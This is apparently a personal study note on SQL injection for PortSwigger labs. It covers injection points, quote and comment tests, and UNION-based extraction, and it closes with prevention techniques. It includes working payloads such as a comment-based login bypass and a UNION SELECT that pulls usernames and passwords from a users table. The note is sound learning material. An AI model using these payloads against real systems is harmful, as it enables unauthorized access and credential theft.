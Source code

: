 #Red 
1. **Basic SQL Injection**
     - Identifying injection points
     - Basic UNION-based SQL Injection
2. **Error-based SQL Injection**
     - Leveraging database error messages
3. **Union-based SQL Injection**
     - Using the UNION operator to extract data   
4. **Blind SQL Injection**
     - Time-based Blind SQL Injection
     - Boolean-based Blind SQL Injection
5. **Out-of-Band SQL Injection**
     - Using [[DNS]] and HTTP requests to exfiltrate data
## Basic SQL Injection

### 1. Identifying Injection Points

#### Common Injection Points
1. **User Input Fields**:
   - Login forms
   - Search fields
   - Registration forms
   - Contact forms

2. **URL Parameters**:
   - Query strings (e.g., `example.com/products?id=1`)

3. **Cookies**:
   - User information stored in cookies

4. **HTTP Headers**:
   - User-Agent, Referer, etc.

5. **API Endpoints**:
   - RESTful and SOAP [[API]] parameters

#### Techniques to Identify Injection Points

1. **Single Quote Test**:
- Enter a single quote (`'`) in input fields or URL parameters.
- If an error occurs (e.g., `SQL syntax error`), it indicates a potential injection point.
- Example:
```
Login Username: admin'
```
- SQL Query:
```sql
SELECT * FROM users WHERE username = 'admin'';
```

2. **Comment Injection Test**:
- Use SQL comments (`--`, `#`) to bypass parts of the query.
- Example:
```
Login Username: admin' -- 
```
- SQL Query:
```sql
SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'password';
```

1. **Error-Based Testing**:
- Inject known bad inputs and look for database error messages.
- Example:
```
Product ID: 1'
```
- SQL Query:
```sql
SELECT * FROM products WHERE id = 1';
```
- Possible error message:
```
SQL syntax error near '1''
```

#### Portswigger Labs
- [[Portswigger Labs#**SQL Injection 1** |Lab]]: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

### 2. Basic UNION-Based SQL Injection

#### Understanding the UNION Operator
- The `UNION` operator is used in SQL to combine the results of two or more SELECT statements.
- Each SELECT statement within the UNION must have the same number of columns in the result sets with similar data types.

#### Steps to Perform UNION-Based SQL Injection

1. **Determine the Number of Columns**:
- Inject a UNION SELECT statement with NULL values to identify the number of columns.
- Example:
```
Product ID: 1 UNION SELECT NULL, NULL, NULL
```
- SQL Query:
```sql
SELECT column1, column2, column3 FROM products WHERE id = 1 UNION SELECT NULL, NULL, NULL;
```
- Adjust the number of `NULL` values until no error is returned.

2. **Find Data Types**:
- Replace NULL with values matching the data type of each column.
- Example:
```
Product ID: 1 UNION SELECT 1, 'string', NULL
```

1. **Extract Data**:
- Once the number of columns and their data types are known, extract data from another table.
- Example:
```
Product ID: 1 UNION SELECT username, password, NULL FROM users
```
- SQL Query:
```sql
SELECT column1, column2, column3 FROM products WHERE id = 1 UNION SELECT username, password, NULL FROM users;
```

#### Example Injection
Given a vulnerable query:
```sql
SELECT id, name, price FROM products WHERE id = '1';
```
Performing a UNION-based injection:
```
Input: 1 UNION SELECT username, password, '0' FROM users
```
Injected Query:
```sql
SELECT id, name, price FROM products WHERE id = '1' UNION SELECT username, password, '0' FROM users;
```

#### Portswigger Labs


### Prevention Techniques
- **Parameterized Queries (Prepared Statements)**:
  - Ensures user inputs are treated as data, not executable code.
- **Stored Procedures**:
  - Encapsulate [[SQL]] code, reducing the risk of injection.
- **Input Validation**:
  - Validate and sanitize all user inputs.
- **Least Privilege**:
  - Limit database user privileges to reduce the impact of a successful injection.